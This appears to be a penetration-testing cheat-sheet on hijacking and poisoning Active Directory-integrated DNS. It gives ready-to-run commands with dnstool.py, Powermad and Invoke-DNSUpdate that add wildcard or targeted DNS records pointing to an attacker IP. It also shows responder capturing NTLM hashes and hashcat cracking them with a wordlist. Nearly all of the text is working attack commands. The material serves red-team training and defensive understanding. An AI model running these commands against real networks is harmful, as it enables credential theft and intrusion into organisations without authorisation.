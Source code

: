 # ADIDNS Hijacking

### Tools: dnstool.py, responder, Powermad, Invoke-DNSUpdate

## Requirements:

### A victim tries to connect to a domain that is NOT CONFIGURED, which means that we can make the domain point to OUR IP address instead.

    python3 dnstool.py -u DOMAIN.LOCAL\\USER.NAME -p 'PASS' DOMAIN.LOCAL -r HIJACKED.DOMAIN.LOCAL -a add -d TARGET_IP -dns-ip OUR_IP

    sudo responder -I tun0 (Capture NTLM Hash of victim)

    hashcat -m 5600 -a 0 ntlmhash.txt /usr/share/wordlist/rockyou.txt (Crack hash)

# ADIDNS Poisoning

How to deal with the Active Directory Integrated DNS and redirect the NTLM authentications to us

1) By default, any user can create new ADIDNS records

2) But it is not possible to change or delete a record we do not own

3) By default, the DNS will be used first for name resolution in the AD, and then NBT-NS, LLMNR, etc

If the wilcard record (*) doesn't exist, we can create it and all the authentications will arrive on our listener, except if the WPAD configuration specifically blocks it.

## Wildcard attack with Powermad

The char * can't be added via DNS protocol because it will break the request. Since we are in an AD we can modify the DNS via LDAP. This is what Powermad does:

##### get the value populated in the DNSRecord attribute of a node

    Get-ADIDNSNodeAttribute -Node * -Attribute DNSRec

##### creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes

    New-ADIDNSNode -Tombstone -Verbose -Node * -Data $IP

##### enable a tombstoned record

    Enable-ADIDNSNode -Node *

##### disable a node

    Disable-ADIDNSNode -Node *

##### remove a node

    Remove-ADIDNSNode -Node *

##### check the wildcard record works/resolve a name

    Resolve-DnsName NameThatDoesntExist

## DNS update with Invoke-DNSUpdate

To work with "classic" record, i.e. not wildcard record

    Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local

# dnstool python tool

##### Check if the '*' record exist

    python3 dnstool.py -u "domain.local\user1" -p "password" -a query -r "*" <DNS_IP>

##### creates a wildcard record

    python3 dnstool.py -u "domain.local\user1" -p "password" -a add -r "*" -d <attacker_IP> <DNS_IP>

##### disable a node

    python3 dnstool.py -u "domain.local\user1" -p "password" -a remove -r "*" <DNS_IP>

##### remove a node

    python3 dnstool.py -u "domain.local\user1" -p "password" -a ldapdelete -r "*" <DNS_IP>
